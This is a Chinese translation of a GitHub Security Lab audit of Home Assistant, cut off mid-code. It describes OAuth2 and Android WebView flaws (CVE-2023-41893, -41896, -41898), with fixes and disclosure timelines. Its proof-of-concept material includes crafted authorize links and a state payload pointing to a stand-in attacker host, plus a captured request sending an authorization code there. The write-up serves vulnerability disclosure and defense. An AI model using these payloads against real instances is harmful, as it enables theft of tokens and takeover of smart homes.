# 【代码审计智能家居】Home Assistant 软件代码审计到 CVE - 先知社区

【代码审计智能家居】Home Assistant 软件代码审计到 CVE

- - -

翻译原文链接：[https://github.blog/2023-11-30-securing-our-home-labs-home-assistant-code-review/](https://github.blog/2023-11-30-securing-our-home-labs-home-assistant-code-review/)

> GitHub 安全实验室对我们在个人实验室中最常使用的开源软件进行了安全检查，目的是提高其安全性能。以下是我们发现的问题，您可以采取对应的措施来加强您智能家居的安全防护。

# 【智能家居代码审计】Home Assistant 软件代码审计到 CVE

## 一、软件简介

在 7 月，GitHub 安全实验室的团队对我们喜爱的一款软件进行了集体审计。尽管我们的研究人员经常合作进行安全审计和研究，但我们发现，偶尔的团队审计让团队成员有机会相互学习，并将审计的范围扩展到个人或双人合作难以达到的广度和深度。您可以阅读我们之前进行的其他团队审计，例如针对 Datahub 的审计，以获取更多信息。

团队成员都可以提出不同的审计目标，我们大约每几个月会投票决定接下来审计哪个项目，并投入一周的时间作为团队进行审计。这次，选择非常明确，因为大多数团队成员都希望审查 Home Assistant 智能家居平台。选择这个平台有两个重要原因：首先，它是目前最受欢迎的开源智能家居平台之一；其次，我们团队中的一些成员和 GitHub 社区的其他成员也在使用它，所以这次审计也有助于提升我们个人家庭的安全性，显然这是一个双赢的选择！

## 二、保护软件开发者的家庭实验室，确保相关供应链安全

开发者的系统是保护公司资产的关键。它们保存了访问公司内部网络和生产系统的所有凭据。如果开发者的私钥遭到泄露，攻击者可能侵入公司网络。即使是环境变量这样的小细节也可能含有重要信息，比如代理服务器的密码、持续集成流程的令牌等，这些都绝不能被不法分子获取。因此，确保开发者系统的安全至关重要，这不仅仅是他们的工作站或笔记本电脑，还包括他们整个家庭网络中的服务器。在供应链攻击中，家庭网络中的服务器可能成为攻击目标。一旦这些服务器被攻陷，攻击者就可能进一步访问其他服务器或工作站，并盗取重要的安全凭证。

作为科技爱好者，我们在家中的实验室里喜欢运行各种自主托管的服务，包括用于控制照明的智能家居系统、媒体服务器、网络附加存储（NAS）系统、摄像头录制系统等等。在 GitHub 安全实验室，我们决定对这些在我们家庭实验室中广泛使用的热门开源软件进行安全性审计，目的是提高它们的安全性能。

### 历史相关研究

我们参考了 elttam Pty Ltd 安全研究团队在其博客上发表的优秀研究成果，题为“Pwnassistant: 通过 Home Assistant 远程代码执行（RCE）控制家庭”。这篇博文对 Home Assistant 的架构、攻击面以及发现的漏洞进行了详尽的解释，这极大地帮助了我们的团队快速理解 Home Assistant 的设计方式，并确定了审计的重点。我们当时并不知道 Cure53 在我们团队审计之前不久就被委托进行了 Home Assistant 的安全审计。结果，我们的两个发现实际上是与 Cure53 的审计结果重复的。（这种事情在漏洞赏金计划中也是常见的。）

## 三、Home Assistant 架构

尽管 elttam 的博客文章已经对 Home Assistant 的架构进行了详尽的描述，但为了便于理解，我们在这里提供一个简洁的概述。需要注意的是，Home Assistant（HASS）可以通过四种不同的方式进行安装。我们将主要关注最常见且官方推荐的安装方式，即 Home Assistant 操作系统（HAOS）。HAOS 是一个基于 Linux 的操作系统，它在 Docker 容器中运行 Home Assistant 的不同组件。这些组件中的两个关键部分是 Supervisor 和 Core。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218110856-0da9c6b8-ce0b-1.png)

### 应用核心

Home Assistant 的核心是一个 Python 应用程序，它负责处理用户与物联网（IoT）设备之间的交互。核心将其大部分任务委托给集成模块。可以将集成模块视为构成核心的构建块。这些构建块中有些是基本组件，例如前端、HTTP 服务和 WebSocket 通信层。其他的则负责与特定类型的 IoT 设备对接，并且只有在您的智能家居系统中使用了这些设备时，这些模块才是必需的。

需要注意的是，Home Assistant 团队维护着众多集成模块，使得 Home Assistant 能够与几乎任何物联网（IoT）设备进行通信。除了官方集成之外，还有一个名为 HACS 的社区项目，它维护了一个庞大的集成列表，用于定制您的 Home Assistant 安装并添加非官方支持的设备。由于审计时间有限，我们没有对这些社区集成进行审计。然而，在使用这些集成时需要谨慎，因为它们将能够完全访问您的 Home Assistant 安装，并且它们中存在的任何漏洞都可能危及您的系统安全。

### 分析组件 Supervisor

Supervisor 是 Home Assistant 的一个关键组件，负责管理和更新 Home Assistant 的核心以及操作系统。它还负责管理用户安装的“附加组件”，这些附加组件作为 Docker 容器实现，提供了额外的功能。这些附加组件可能包括 VSCode 编辑器、SSH 终端、ESPHome、备份工具、MQTT 代理或 Zigbee2MQTT 等服务。Supervisor 提供了一个 HTTP API，这个 API 允许与核心和附加组件进行通信。但是，为了安全起见，这个 API 默认是不对外部开放的，即使是本地网络也无法访问。

## 四、安全分析过程

正如之前提到的，这个项目是通过团队审计的方式进行的，这涉及到协调不同人员对代码的审计，并组织对 Home Assistant 不同部分的评估。为了有效地完成这项任务，我们采取了一种全面且系统化的方法来审查 Home Assistant 的代码，目的是为了找出潜在的漏洞和安全问题。所采用的方法论大致可以总结为以下几个步骤：

-   **理解系统**。首先，我们需要深入掌握 Home Assistant 的架构、关键组件及其功能。这包括仔细阅读相关文档、审计相关博客文章、搭建一个测试服务器，并通过实际操作应用程序来初步识别可能的攻击点和值得关注的组件。
-   **识别攻击面**。在对系统有了深入了解之后，我们接着识别了可能被攻击者利用的各种攻击面。由于时间限制，我们决定将重点放在远程攻击面上，包括网络应用的前端和后端 API，而将本地攻击面，如可能连接到服务器的恶意 IoT 设备，留作后续评估。这一步骤是迭代的，因为随着新发现的不断出现，攻击面也可能随之变化。
-   **审计认证与授权过程**。认证和授权是确保 Home Assistant 安全访问的关键环节。我们对此进行了详尽的审计，以查找可能存在的漏洞或弱点。
-   **代码库分析**。Home Assistant 的代码库相当庞大，手动审计它超出了我们的时间限制。这就是自动化静态分析工具，如 CodeQL，可以发挥作用的地方，它们既可以作为探索不熟悉的代码库的方式（例如，列出应用程序中的用户可控元素或列出应用程序的热点，在这些地方进行危险操作），也可以以自动化的方式发现漏洞。
-   **使用安全工具**。在我们确定了各种攻击面，并将它们映射到处理这些恶意输入的代码之后，我们使用 CodeQL 和 Burp Suite 作为主要工具来探索代码中的漏洞。
-   **报告发现**。在整个代码审计过程中，任何识别出的漏洞或潜在的安全问题都被详细记录并使用 GitHub 的私有漏洞报告（PVR）功能报告给了 Home Assistant 团队。
-   **验证测试**。在报告了漏洞并提供修复建议之后，进行了验证测试以确保所提出的修复措施能够有效地解决之前识别出的问题。

## 五、支持调试的测试环境

在安全评估中，搭建一个有用的测试环境可能是最具挑战性的环节之一。幸运的是，在这个案例中，建立测试环境并不复杂。Home Assistant 核心项目已经在他们的主仓库中设置了一个 DevContainer。这使得可以直接在 GitHub Codespace 中启动项目，针对 Home Assistant 核心仓库进行操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218110919-1b51ccd4-ce0b-1.png)

> [https://github.com/features/codespaces](https://github.com/features/codespaces)
> 
> [https://github.com/home-assistant/core](https://github.com/home-assistant/core)

实际上更好的是：DevContainer 已经配置了一个适用于 Python 的工作调试环境！一旦 DevContainer 被创建，就可以通过 VS Code 中调试标签的“开始调试”按钮启动 Home Assistant。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218110927-205e39ba-ce0b-1.png)

这使我们能够在 Python 代码中设置断点，并在程序执行过程中实时查看服务器端变量的实际值。虽然并不是总能轻松获得支持调试的测试环境，但只要有可能，它往往能够很快带来显著的收益。

## 六、分析审计过程

在对 Home Assistant 进行安全代码审计期间，我们发现了一些漏洞和潜在的安全问题。在接下来的部分，我们将详细介绍一些关键发现，并尝试展示这些发现背后的分析过程。Home Assistant 有一个非常狭窄的非认证攻击面。这意味着，为了在 Home Assistant 中执行大多数操作，我们需要进行认证。从安全角度来看，这是非常好的，因为它大大减少了外部攻击者可以与之交互的非认证攻击面。作为一个攻击者，这限制了我们的选择：

在 Home Assistant 的安全代码审计中，我们关注了以下几个方面：1. 认证/授权机制中的漏洞。2. 未认证端点中的漏洞。3. CSRF（跨站请求伪造）类似漏洞，这些漏洞可能迫使认证用户攻击自己。

### 认证与授权过程审计

在我们审计应用程序时，首先会关注的是用户认证和授权。确保应用程序正确地认证用户并强制执行他们对资源和操作的访问非常重要。因为这些领域的错误可能使攻击者能够

-   绕过认证机制
-   冒充合法用户
-   访问未经授权的资源

> [https://tools.ietf.org/html/rfc6749](https://tools.ietf.org/html/rfc6749)
> 
> [https://indieauth.spec.indieweb.org/](https://indieauth.spec.indieweb.org/)
> 
> [https://developers.home-assistant.io/docs/auth\_api/](https://developers.home-assistant.io/docs/auth_api/)

Home Assistant 的 Web 应用程序和移动应用程序使用 OAuth 2 规范结合 OAuth 2 IndieAuth 扩展来授权自己访问 Home Assistant API。在认证方面，允许使用几个不同的服务提供商，但默认采用的是基于用户名和密码的“Home Assistant Auth Provider”。OAuth2/IndieAuth 流程在 Home Assistant 的官方文档中有详细的描述。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111012-3ab5efc4-ce0b-1.png)

在对 OAuth 流程实现的审计结果中，我们发现了两个安全漏洞。

## 七、不受限制的 OAuth2 客户端：**CVE-2023-41893/GHSL-2023-164**

Home Assistant 目前没有允许或禁止 OAuth2 客户端的功能。这意味着任何人都可以通过授权请求中的 client\_id 参数（/authorize）指定一个 OAuth2 客户端。尽管 Home-Assistant 会通过消息告知用户"You're about to give http:// access to your Home Assistant instance"，但这个消息并没有明确指出这是一个潜在的危险。这个消息显示的内容在用户本地登录和远程登录时看起来都是一样的。为了利用这一点，攻击者可以创建一个类似于下面的链接，并诱骗受害者点击它并登录他们的 Home Assistant 实例：

```plain
http://homeassistant.local:8123/auth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fhomeassistant.local.evil%3A8123%2F%3Fauth_callback%3D1&client_id=http%3A%2F%2Fhomeassistant.local.evil%3A812300%2F&state=
```

在这个链接中，redirect\_uri 和 client\_id 查询参数都被修改，指向攻击者在[http://homeassistant.local.evil:8123上运行的OAuth客户端。重要的是要注意，尽管如此，受害者仍然会看到他们的Home](http://homeassistant.local.evil:8123上运行的OAuth客户端。重要的是要注意，尽管如此，受害者仍然会看到他们的Home) Assistant 实例 URL（[http://homeassistant.local:8123），并且会被引导至登录页面。](http://homeassistant.local:8123），并且会被引导至登录页面。)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111059-57483494-ce0b-1.png)

尽管页面明确指出受害者即将授权给[http://homeassistant.local.evil，但这条消息与他们在使用合法客户端登录时收到的消息并没有显著不同。您能在这两个登录表单之间识别出任何差异吗？（我们本可以做得不那么明显，比如去掉.evil）](http://homeassistant.local.evil，但这条消息与他们在使用合法客户端登录时收到的消息并没有显著不同。您能在这两个登录表单之间识别出任何差异吗？（我们本可以做得不那么明显，比如去掉.evil）)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111114-5ffb2c5e-ce0b-1.png)

根据 Home Assistant 的 Authentication API 文档，这种设计是有意为之的：在你请求用户授权他们的实例与你的应用程序之前，你需要一个客户端。在传统的 OAuth2 中，服务器需要在用户授权之前生成一个客户端。然而，由于每个 Home Assistant 服务器都属于一个特定的用户，因此我们从 IndieAuth 采用了略微不同的方法。

您需要使用的客户端 ID 是您应用程序的网站地址。重定向 URL 必须与客户端 ID 的同一主机和端口相同。

### 缓解方法

Home Assistant 在 2023.9 版本中对这一页面进行了更新，以在 Web UI 和移动应用程序中提供更清晰的用户界面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240218111129-68bf6d64-ce0b-1.png)

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-08-28: Home Assistant 告知我们报告与不同的审计发生了冲突，并共享了一个修复提交的 commit。
-   2023-09-06: 修复在 2023.9 版本中发布。
-   2023-09-14: CVE-2023-41893 被分配给这个问题。
-   2023-10-20: 发布了安全建议或公告。

## 八、授权码泄露:CVE-2023-41896/GHSL-2023-163

在 OAuth2 认证请求中，除了 client\_id 和 redirect\_uri 参数外，还可以包括一个 state 参数。根据 Home Assistant 的官方文档，这个参数用于存储用户正在尝试认证的实例的 URL。用户的实例 URL 随后会被添加到重定向的 URI 中。

在 Home Assistant 中，state 参数不是一个不透明、随机的值，这与其在 OAuth2 流程中的建议不符。相反，它是一个包含 hassUrl 和 clientId 的 Base64 编码的 JSON 对象。

在 Web 登录流程中，客户端 JavaScript 代码会使用 hassUrl 的值来发起一个 POST 请求。这个请求包含了从 Home Assistant 获得的有效的授权码。

为了解析 URL 中的查询字符串并解码认证状态，你可以查看源代码。这段代码还会使用 fetchToken 函数向由 hassUrl 属性指定的服务器发送一个 POST 请求。

```plain
const query = parseQuery(location.search.substr(1));
// Check if we got redirected here from authorize page
if ("auth_callback" in query) {
  // Restore state
  const state = decodeOAuthState(query.state);
  data = await fetchToken(state.hassUrl, state.clientId, query.code);
  if (options.saveTokens) {
    options.saveTokens(data);
  }
}
```

如果一个攻击者诱骗一个受害者通过一个恶意的链接登录 Home Assistant，他们可能会窃取授权码。这将使他们能够使用这些授权码从 Home Assistant 获取有效的刷新和访问令牌。

### Poc

攻击者可以使用他们自己的恶意服务器作为 state json 中的 hassUrl 属性：

一旦这个 json 对象被 base64 编码，它就可以用来构造一个恶意的链接：

```plain
{
  "hassUrl":"http://homeassistant.local.evil:8123/",
  "clientId":"http://homeassistant.local:8123/"
}
```

一旦 state json 对象被 base64 编码为示例字符串，它可以用来构造一个恶意的链接。

```plain
http://homeassistant.local:8123/auth/authorize?response_type=code&redirect_uri=http%3A%2F%2Fhomeassistant.local%3A8123%2F%3Fauth_callback%3D
```

请注意，在这种情况下，尽管 host、client\_id 和 redirect\_uri 的值都是合法且符合用户的预期，但这仍然可能构成安全风险。

受害者会看到一个登录表单，上面附带消息：你即将给予[http://homeassistant.local:8123/对你的Home](http://homeassistant.local:8123/%E5%AF%B9%E4%BD%A0%E7%9A%84Home) Assistant 实例的访问权限。请注意，这是用户的服务器实例，所以没有任何可疑之处。

一旦用户登录，他们获得的授权码就会被发送回攻击者。

```plain
POST /auth/token HTTP/1.1
Host: homeassistant.local.evil:8123
Content-Length: [..]
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOdg7W5BtZriAqa3J
Accept: */*
Origin: http://homeassistant.local:8123/
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryOdg7W5BtZriAqa3J
Content-Disposition: form-data; name="client_id"

http://homeassistant.local:8123/
------WebKitFormBoundaryOdg7W5BtZriAqa3J
Content-Disposition: form-data; name="code"

0122db4514c34af9be03bf62e8e9605c
------WebKitFormBoundaryOdg7W5BtZriAqa3J
Content-Disposition: form-data; name="grant_type"

authorization_code
------WebKitFormBoundaryOdg7W5BtZriAqa3J--
```

攻击者现在可以使用授权码来获取访问令牌和刷新令牌，方法是向 Home Assistant 服务器的/auth/token 端点发送一个 POST 请求。这种未经授权的行为可能会导致 Home Assistant 实例上发生远程代码执行（RCE）。

### 缓解方法

作为初步缓解措施，Home Assistant 在 getAuth 函数中引入了一个名为 limitHassInstance 的新特性。当 limitHassInstance 设置为 true 时，它会限制 Home Assistant 从 OAuth2 state 接受的 hassUrl 和 clientId 的值。默认情况下，limitHassInstance 的值被设置为 true。

### 时间线

-   2023-07-17: 向 security@home-assistant.io 报告问题。
-   2023-08-02: 修复在 2023.8 版本中发布。
-   2023-08-28: 由于未收到回复，在公共论坛上发起了请求替代安全联系方式的问题。
-   2023-08-28: Home Assistant 告知我们他们已经转移到 GitHub Private Vulnerability Reporting。
-   2023-08-28: 通过 GitHub Private Vulnerability Reporting 报告了问题。
-   2023-08-28: Home Assistant 告知我们报告与不同的审计发生了冲突，并与我们共享了一个修复提交的 commit。
-   2023-09-14: CVE-2023-41896 被分配给这个问题。
-   2023-10-20: 发布了安全建议或公告。

## 九、攻击面分析

在对新软件进行安全审计时，一个重要的初步步骤是识别可能遭受攻击的区域。了解应用程序的功能，并找出攻击者可能与之交互的所有可能方式，对于全面的安全评估至关重要。在我们对 Home Assistant 进行的审计中，我们最初确定了三个主要的攻击途径：

-   Web 应用程序的攻击面。Home Assistant 提供了 REST API 和 WebSocket API，攻击者可能会尝试利用这些 API。然而，大多数端点需要认证，并且从可能造成的影响来看，它们并不是非常关键。PwnAssistant 的博客文章详细描述了这一攻击面，并指出了一些可能暴露未经认证端点的集成，这些端点值得进一步调查。我们使用 CodeQL 来模拟这些集成端点的行为，并进行了手动审计和标准的 CodeQL 查询，但最终没有发现任何安全弱点。
-   本地攻击面。还有一个攻击面暴露给了所有能够通过各种协议（WiFi、蓝牙、ZigBee、Thread、ZWave 等）与 Home Assistant 交互的物联网设备。这些设备以及自动发现功能可能形成一个有趣的攻击途径。然而，存在一个限制——攻击者需要物理接近 Home Assistant 服务器。鉴于这次团队审计的时间限制，探索这个攻击面是不现实的。尽管这次代码审计的范围不包括这一点，但重要的是要考虑通过实施适当的网络分段和防火墙配置来保护 Home Assistant，以减轻基于网络的攻击。
-   移动应用程序的攻击面。Home Assistant 的移动伴侣应用程序也为攻击者提供了一个有趣的途径。作为这些应用程序的用户，我们意识到它们需要用户登录凭据，并且为了后续使用而保持认证状态。因此，如果攻击者通过第三方应用程序或深度链接控制这些应用程序，他们可能会潜在地代表我们访问 Home Assistant。我们对 iOS 和 Android 应用程序进行了彻底的分析，以识别潜在的安全漏洞。结果，我们发现了两个值得报告的具体漏洞。

## 十、MyActivity.kt 中的 Android WebView 中任意 URL 加载:CVE-2023-41898/GHSL-2023-142

Home Assistant 伴侣应用程序声明了一个名为 MyActivity 的公开可调用的活动。

```plain
<activity android:name=".launch.my.MyActivity"
    android:exported="true">
    <intent-filter android:autoVerify="true">
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />

        <data
            android:scheme="https"
            android:host="my.home-assistant.io"
            android:pathPrefix="/redirect/"/>
    </intent-filter>
</activity>
```

导出的活动对安装在同一设备上的任何 Android 应用程序都是可访问的，允许它们通过发送一个 Intent 与之交互。通过检查源代码，我们可以观察到活动如何从传入的 Intent 中检索 URI。你可以在这里找到相关的代码片段。

```plain
val newUri = intent.data!!.buildUpon().appendQueryParameter("mobile", "1").build()
```

接下来的步骤是设置一个 WebView 并加载由用户控制的 URI。你可以在这里找到执行这一过程的代码。

```plain
binding.webview.apply {
    settings.javaScriptEnabled = true // [1]
    webViewClient = object : WebViewClient() {
        override fun shouldOverrideUrlLoading(
            view: WebView?,
            request: WebResourceRequest?
        ): Boolean {
            val url = request?.url.toString()
            if (url.startsWith("homeassistant://navigate/")) {
                startActivity(WebViewActivity.newInstance(context, url.removePrefix("homeassistant://navigate/"))) // [2]
                finish()
                return true
            }
            return false
        }
    }
}
binding.webview.loadUrl(newUri.toString())
```

请注意，这个 WebView 不仅支持 JavaScript，而且还覆盖了 shouldOverrideUrlLoading 方法。这个方法接收正在加载的 URL，如果这个 URL 以`homeassistant://navigate/`开头，它会移除这个前缀，并将剩余的 URI 作为`path`参数传递给`WebViewActivity.newInstance()`。

WebViewActivity.newInstance() 调用将 path 包装在一个 Intent 中，如提供的链接所示。稍后，这个 Intent 被用来调用 presenter.onViewReady(path)，这也如提供的链接所示。

```plain
class WebViewActivity : BaseActivity(), io.homeassistant.companion.android.webview.WebView {

companion object {
    const val EXTRA_PATH = "path"
    // --snip--

    fun newInstance(context: Context, path: String? = null, serverId: Int? = null): Intent {
        return Intent(context, WebViewActivity::class.java).apply {
            putExtra(EXTRA_PATH, path)
            putExtra(EXTRA_SERVER, serverId)
        }
    }
}
// --snip--

override fun onWindowFocusChanged(hasFocus: Boolean) {
    super.onWindowFocusChanged(hasFocus)
    if (hasFocus && !isFinishing) {
        unlockAppIfNeeded()
        val path = intent.getStringExtra(EXTRA_PATH)
        presenter.onViewReady(path)
        // --snip--
    }
}
```

调用 presenter.onViewReady(path) 函数会触发 WebViewPresenterImpl.onViewReady() 函数。这个函数会将我们的 path 值加载到 WebView 中。在加载之前，url 会使用 UrlUtil.handle(url, path) 方法进行处理。

你可以在 WebViewPresenterImpl.kt 文件中找到 loadUrl 方法的实现。url 的处理是在该文件的 93 行使用 UrlUtil.handle(url, path) 方法完成的。

```plain
fun handle(base: URL?, input: String): URL? {
    return when {
        isAbsoluteUrl(input) -> {
            URL(input)
        }
        // --snip--
    }
}

fun isAbsoluteUrl(it: String?): Boolean {
    return Regex("^https?://").containsMatchIn(it.toString())
}
```

这个方法的设计目的是确定 URL 是否是绝对路径。如果是，它会将 URL 包装在一个 URL 对象中并返回以供加载。然而，这种做法存在安全风险，因为它允许攻击者将 WebView 重定向到他们选择的任何 URL，从而使他们能够执行 JavaScript 代码。

在这个特定的场景中，攻击者可以利用 WebView 中包含的多个 JavaScript 接口。这些接口充当了原生代码的桥梁，使得在 JavaScript 内部可以调用 Kotlin 代码。作为这种桥梁的一个例子，是 getExternalAuth 接口（代码）。

```plain
@JavascriptInterface
fun getExternalAuth(payload: String) {
    JSONObject(payload).let {
        presenter.onGetExternalAuth(
            this@WebViewActivity,
            it.getString("callback"),
            it.has("force") && it.getBoolean("force")
        )
    }
}
```

WebViewPresenterImpl.onGetExternalAuth 函数从提供的 payload 字符串中获取 callback 属性，并在从 JSON 解码后将其传递给 onGetExternalAuth。然后，onGetExternalAuth 会调用 setExternalAuth，并传递一段使用用户控制的 callback 构建的 JavaScript 代码片段。

```plain
override fun onGetExternalAuth(context: Context, callback: String, force: Boolean) {
mainScope.launch {
    try {
        view.setExternalAuth("$callback(true,                     ${serverManager.authenticationRepository(serverId).retrieveExternalAuthentication(force)})")
    } catch (e: Exception) {
        // --snip--
    }
}
```

setExternalAuth 函数最终会对使用攻击者控制的构造数据构建的 JavaScript 代码进行评估，这引入了一个跨站脚本（XSS）漏洞。

```plain
override fun setExternalAuth(script: String) {
    webView.post {
